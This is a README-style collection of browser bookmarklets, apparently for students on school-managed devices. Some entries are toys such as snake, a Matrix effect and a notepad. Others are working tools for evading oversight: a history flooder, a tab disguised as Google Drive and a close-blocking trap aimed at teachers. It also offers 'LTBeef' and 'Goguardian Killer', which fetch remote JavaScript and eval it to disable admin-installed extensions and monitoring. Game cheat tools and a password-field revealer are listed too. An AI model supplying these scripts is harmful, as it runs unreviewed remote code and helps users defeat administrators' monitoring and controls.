 # Bookmarklet Collection
### I do not condone any illegal/immoral use of these bookmarklets, these are listed strictly for educational purposes!


> ## History Flooder
#### Have something to hide? Use this bookmarklet to spam your history with your input of websites!
`javascript:var num=prompt("History flood amount: "); done = false; x = window.location.href; for (var i=1; i<=num; i++) {history.pushState(0, 0, i==num?x:i.toString()); if(i==num){done=true}}if(done===true){alert("History flood successful! "+window.location.href+" now appears in your history "+num+(num==1?" time.":" times."))}`



> ## X-Ray Googles
#### This lets you edit the raw HTMl of a page (Client-Sided)
`javascript:(function () {var script=document.createElement('script');script.src='https://x-ray-goggles.mouse.org/webxray.js';script.className='webxray';script.setAttribute('data-lang','en-US');script.setAttribute('data-baseuri','https://x-ray-goggles.mouse.org');document.body.appendChild(script);}())`



> ## Portable Minecraft
#### Play a mock minecraft on any webpage! Recovered by luphoria.
`javascript:(function(){window.mcbmRootURI='https://luphoria.com/MCanywhere/';window.mcbmScriptURI='mcbm.min.js';window.mcbmLang='eng';var s,ss=window.mcbmRootURI+'js/mcbm-load.min.js';s=document.createElement('script');s.src=ss;document.body.appendChild(s);})();`



> ## Portable Snake Game
#### Game window appears on your page that you can play snake on.

`javascript:Q=32;m=b=Q*Q;a=[P=l=u=d=p=S=w=0];u=8;f=(h=j=t=(b+Q)/2)-1;(B=(D=document).body).appendChild(x=D.createElement("p"));(X=x.style).position="fixed";X.left=X.top=0;X.background="#FFF%22;x.innerHTML=%22%3Cp%3E%3C/p%3E%3Ccanvas%3E%22;v=(s=x.childNodes)[0];(s=s[1]).width=s.height=5*Q;c=s.getContext(%222d%22);%20onkeydown=onblur=F=function(e,g){g?a[f]?(w+=m,f=Math.random(l+=8)*(R=Q-2)*R|(u=0),F(f+=Q+1+2*(f/R|0),g)):F(f):0%3Ee?(l?--l:(y=t,t=a[t]-2,F(y)),S+=(w*=0.8)/4,m=999/(u++%20+10),a[h+=[-1,-Q,1,Q][d=p]]?B.removeChild(x,alert(%22Game%20Over!\nThe%20game%20window%20will%20now%20be%20closed.\n\nMade%20by%203kh0%22)):(F(h),F(e,j=h),v.innerHTML=P?(setTimeout(F,50,e,0),S|0):%22Press%20P%20to%20play!%20Made%20by%203kh0%22)):-e?(y=(a[e]=e%3CQ|e%3E=Q*Q-Q|!(e%Q)|e%Q==Q-1|2*(e==h))+(e==f),e==h&&(a[j]=2+h),c.fillStyle=%22hsl(%22+99*!a[e]+%22,%22+2*m+%22%,%22+50*y+%22%)%22,c.fillRect(e%Q*5,5*(e/Q|0),5,5)):isNaN(y=e.keyCode-37)|43==y?(P=y&&!P)&&F(-1):%20p=!P|y&-4|!(y^2^d)?p:y;return!1};for(;--b;F(b));void%20F(-1);`



> ## Enter The Matrix
#### Do you choose the red or the blue pill?

`javascript:(function(){var%20wn=window,w,h,o={},m,dc,b,c='ABCDEFGHIJKLM1234567890nopqrstuvwxyz',y=setInterval,z=clearInterval,t=1;function%20x(){dc=document;b=dc.body;b.innerHTML='';bs=b.style;w=wn.innerWidth;h=wn.innerHeight;bs.backgroundColor='black';bs.overflow='hidden';m=y(n,25);dc.addEventListener('keydown',function(e){if(e.keyCode==83){if(t)z(m);else%20m=y(n,25);t=!t}},0)}function%20g(i){return%20dc.getElementById(i)}function%20r(d,m){return%20Math.floor(Math.random()*d)+m}function%20a(i){var%20d=g(i),ds=d.style,t=parseInt(ds.top),k=o[i];if(t<h){ds.top=(t+10)+'px'}else{z(k);b.removeChild(d);delete%20k}}function%20n(){var%20d=dc.createElement('div'),dt=new%20Date(),i='m_'+dt.getTime(),ds=d.style,v=ds.visibility,j=0,u=[],l=r(21,4),q=c.length,p;d.id=i;ds.width='5px';ds.opacity=r(.3,.7);ds.fontSize=r(8,8)+'px';ds.lineHeight='8px';ds.color='green';ds.position='absolute';ds.left=r(w,0)+'px';v='hidden';while(j<l){p=r(q,0);u[j]=c.substring(p,p+1);j++}d.innerHTML=u.join("\n");b.appendChild(d);ds.top=-d.offsetHeight+'px';v='visible';o[i]=y(function(){a(i)},r(20,40))}x();})()`



> ## LTBeef
#### Force disable admin installed extensions (go to chrome webstore)

`javascript:fetch('https://compactcow.com/ltbeef/exploit.js').then(data=>{data.text().then(text=>{eval(text)})});`



> ## Google Drive Tab Disguise
#### Changes icon and title of tab to Google Drives

`javascript:function gcloak() { var link = document.querySelector("link[rel*='icon']") || document.createElement('link');link.type = 'image/x-icon';link.rel = 'shortcut icon';link.href = 'https://ssl.gstatic.com/docs/doclist/images/infinite_arrow_favicon_5.ico';document.title = 'My Drive - Google Drive';console.log(document.title);document.getElementsByTagName('head')[0].appendChild(link) };gcloak();setInterval(gcloak, 1000);`



> ## Secure Page
#### This bookmarklet makes your tab need extra confirmation to close (teachers cant force close)

`javascript:window.onbeforeunload = function() { return "Do you want to close"; }; alert("Tab Secured");`



> ## Show Password
#### Makes "********" Passwords show after clicking bookmarklet

`javascript:(function(){ var IN,F;IN=document.getElementsByTagName('input'); for(var i=0;i<IN.length;i++){F=IN[i]; if(F.type.toLowerCase()=='password'){ try{F.type='text'}catch(r){ var n,Fa;n=document.createElement('input'); Fa=F.attributes;for(var ii=0;ii<Fa.length;ii++){ var k,knn,knv;k=Fa[ii];knn=k.nodeName;knv=k.nodeValue; if(knn.toLowerCase()!='type'){ if(knn!='height'&&knn!='width'&!!knv)n[knn]=knv}}; F.parentNode.replaceChild(n,F)}}}})()`



> ## Blooket Multitool
#### This is a semi-functional blooket multitool

`Way too big to put here but its at (https://zeltux.dev/dump/blooket.js)`



> ## The Holy Fucking Grail (NOT MINE)
#### This is one of the only bookmarklets you will ever need (absolutely fucking crazy)

`javascript:(function () %7Bvar v %3D document.createElement(%27script%27)%3Bv.src %3D %27https%3A%2F%2Fcdn.jsdelivr.net%2Fgh%2FBrowncha023%2FVengeance%40v1.2.0%2Fscript.min.js%27%3Bdocument.body.appendChild(v)%3B%7D())`



> ## Prodigy Multitool
#### This is a prodigy cheat multitool

`Way too big to put here but its at (https://zeltux.dev/dump/prodigy.js)`

> ## Online Notepad
#### Just opens a new tab that allows you to type whatever you desire

`javascript:(function()%7Bjavascript%3Avoid%20(()%20%3D%3E%20%7Blet%20textEditorPopup%20%3D%20window.open(%22%22%2C%20%22Text%20Editor%22%2C%20%22width%3D1000%2Cheight%3D500%22)%3B%20textEditorPopup.document.body.contentEditable%20%3D%20true%3B%20textEditorPopup.document.body.style.fontFamily%20%3D%20%22monospace%22%3B%20textEditorPopup.document.body.style.fontSize%20%3D%20%2220px%22%3B%20textEditorPopup.document.body.spellcheck%20%3D%20false%3B%20textEditorPopup.document.title%20%3D%20%22Text%20Editor%22%3B%7D)()%3B%7D)()%3B`

> ## Goguardian Killer
#### Kills GoGuardian (Duhh) (NOT MINE)

`javascript:fetch(`https://raw.githubusercontent.com/H4lyc0n/Goguardian-killer/main/Exploit_Not_The_Bookmarklet.js`).then(data=>{data.text().then(text=>{eval(text)})});`

